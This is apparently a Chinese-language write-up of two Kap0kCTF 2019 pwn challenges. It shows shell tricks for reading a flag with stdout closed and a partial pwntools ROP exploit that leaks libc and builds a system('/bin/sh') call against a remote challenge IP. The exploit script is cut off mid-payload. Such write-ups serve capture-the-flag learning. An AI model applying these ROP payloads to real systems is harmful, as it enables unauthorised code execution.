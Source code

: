 # Kap0kCTF_2019_PWN_WP

出的什么垃圾题目

翻车

## blindpwn

3 solved

### 题目描述

前一天晚上随手出的nc pwn... 想着不要那么简单直接`cat flag`, 所以关了stdout, 没想到翻车. 还真没人搜的出来那个`错误的文件描述符`吗

### 利用

我这给两种解法
```bash
cat flag >&2 # 重定向到stderr

. ./flag # 报错的方式
```

## dark

0 solved

### 题目描述

ROP, 同样关闭stdout, 然后在puts函数调用前藏了一段汇编指令(backdoor, 还F5不). 你说没有找到? 没有关系, 按照rop来做, ROPgadget之类的工具也会跑出来的.

但是找到了的话, 思路就很明显了, 用`syscall; ret;` 这个backdoor来进行ROP的构造, 

这个时候我们要想如何去控制rax(rdi, rsi都很容易控制), 我这里的选择是使用read函数返回值是读入的长度这个tricks来控制, 当然还有其他的办法 (我懒得去想了2333)

ROP的构造思路也很简单, 我们可以先系统调用`write`来leak libc, 然后将`system`函数地址和`/bin/sh\x00`写入到bss,最后通过一个间接跳转的gadget来getshell

这里注意, 因为关闭了stdout, 所以write的参数fd我们用stderr的fd来leak

### 利用

我的exp是自己封装了一下pwntools, 但是逻辑是一样的, 具体的自己改一下交互就行

```python
from q4n import *

r=PWN("./dark_3c2b7a214be7a073dcda5860fe027549")
# r.proc()
r.remote("222.201.144.148","28021")
r.ru("goodbye!\n")

syscall=0x00000000004007ab
pdi=0x0000000000400873
psip=0x0000000000400871
read=r.elf.plt['read']
bss=0x000601060
read_got=r.elf.got['read']
p12ppp=0x000000000040086c
# 0x0000000000400859 : call qword ptr [r12 + rbx*8]
call=0x0000000000400859

payload='\x00'*0x28
payload+=flat(psip,bss,0,read)
payload+=flat(psip,bss+0x200,0,read,pdi,2,psip,read_got,0,syscall, pdi,0,psip,bss+0x200,0,read,)
payload+=flat(pdi,bss,p12ppp,bss+0x200,0,0,0,call)
```